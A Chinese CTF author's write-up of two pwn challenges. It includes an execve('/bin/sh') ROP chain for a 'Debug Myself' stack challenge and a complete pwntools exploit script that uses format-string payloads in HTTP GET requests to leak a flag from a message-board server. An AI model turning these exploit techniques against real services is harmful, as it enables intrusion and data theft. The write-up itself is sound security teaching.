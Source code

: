 ## Debug Myself

这道题的想法其实来源于今年 [CakeCTF-2023](https://2023.cakectf.com/tasks/1918350021/) 的一道 `warmup` 题目 **`vtable4b`**，题目中非常形象地展示了 C++ 函数虚表的数据结构。做题时就感觉这种题目非常友善并且能从中学到很多东西。于是这次比赛中我按照 [pwndbg](https://github.com/pwndbg/pwndbg) 的界面把主函数的栈帧结构给显示出来了，也在 gift 中给了一些 `ROP gadget` 的地址，对题目的定位也是 `pwn` 部分的 `warmup` 题。题目源码见题解仓库。

这道题目没有附件，可以直接开启容器并连接查看输出，输入 `help` 指令会出来一个命令菜单：

![](images/Screenshot_2023-12-13_at_13.23.40.png)

从设定上来说，这道题不需要选手编写利用脚本来解题，只需要通过 `stack` 指令查看栈布局，通过 `gift` 指令获取 **`pop rdi ; ret`** 等语句的地址，最后通过 `set` 指令完成栈上数据的布置就能 **getshell**：

![](images/Screenshot_2023-12-13_at_13.46.20.png)

这里构造的是：

```nasm
; SYS_execve("/bin/sh", 0, 0)
pop rdi;
ret; rdi = addr -> "/bin/sh\x00"
pop rsi;
ret; rsi = 0
pop rdx;
ret; rdx = 0
pop rax;
ret; rax = SYS_execve
syscall;
ret;
```

其中有两个需要注意的地方：

- rdi 作为第一个参数，应当指向存放 `“/bin/sh\x00”` 的地址而非字符串本身，这个字符串有很多种方法获取，其实最简单的一个方法是直接在输入中输 `/bin/sh` 再查看栈上数据找到这个地址。题解中用的方法是输入字符串的小端序表示的十六进制数到特定地址上，再把这个地址传给 rdi。其实还可以直接到程序的 libc 中找这个字符串，在此不多赘述。
- 64 位 intel 程序在进行系统调用时，系统调用号应该放在 rax 寄存器中，关于这个系统调用号表可以直接到 linux 源码中找到：[https://github.com/torvalds/linux/blob/master/arch/x86/entry/syscalls/syscall_64.tbl](https://github.com/torvalds/linux/blob/master/arch/x86/entry/syscalls/syscall_64.tbl)

---

# 小 Ne 的留言板

这是一道伪装成 Web 题的 Pwn，不过很好地被放在了 Pwn 分类下，预期解法是格式化字符串泄漏 `.bss` 段上的 flag 字符串，需要简单的脚本编写。题目源码见题解仓库。

题目提供了附件，对它进行简单的逆向工程可以发现它首先会监听本地的 31337 端口（比赛容器上则是动态端口，平台做了转发），然后会把 `flag` 作为 `secert_key` 读到全局变量上：

![](images/Screenshot_2023-12-13_at_22.11.48.png)

![](images/Screenshot_2023-12-13_at_22.14.23.png)

至于漏洞的发现，并不需要真的去逆向程序：

1. 题目描述：「但是页面上一直在跳出来奇怪的东西」
2. 随便构造一些输入（例如中文输入），界面上的信息就变成乱码了

![](images/Screenshot_2023-12-13_at_22.19.10.png)

再用 `checksec` 或 gdb 之类的工具看程序保护，发现是有地址随机化的，因此思路确定为：

发送三段 `payload`：

1. 先利用栈上残留信息得到程序基址偏移

```python
payload = get_payload(b"%16$p")
s(payload)
ru(b"DEBUG: ")
elf_base = int(io.recv(), 16) - 0x3272
lg("elf_base", elf_base)
```

2. 再把目标地址写到缓冲区里，调试定位缓冲区

```python
payload = get_payload(b"a" * 7 + p64(elf_base + 0x5040) * 3)
s(payload)
ru(b"DEBUG: ")
```

3. 最后用 `%s` 偷出 `secert_key`

```python
payload = get_payload(b"%97$s")
s(payload)
ru(b"DEBUG: ")
```

完整利用脚本如下：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
# set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

def get_payload(name):
    payload = b"GET /index.html?name=" + name
    payload += b" HTTP/1.1\n"
    payload += b"\n"
    return payload

# 跑三次，一次找基址，一次写 target，最后 %s

# payload = get_payload(b"%16$p")
# s(payload)
# ru(b"DEBUG: ")
# elf_base = int(io.recv(), 16) - 0x3272
# lg("elf_base", elf_base)

elf_base = 0x55EC502DC000

# payload = get_payload(b"a" * 7 + p64(elf_base + 0x5040) * 3)
# s(payload)
# ru(b"DEBUG: ")

payload = get_payload(b"%97$s")
s(payload)
ru(b"DEBUG: ")

ia()

"""
unused:

# canary = 0x1A8DD3A7FCD2CA00

# payload = get_payload(b"%12$p")
# s(payload)
# ru(b"DEBUG: ")
# canary = int(io.recv(), 16)
# lg("canary", canary)
"""
```
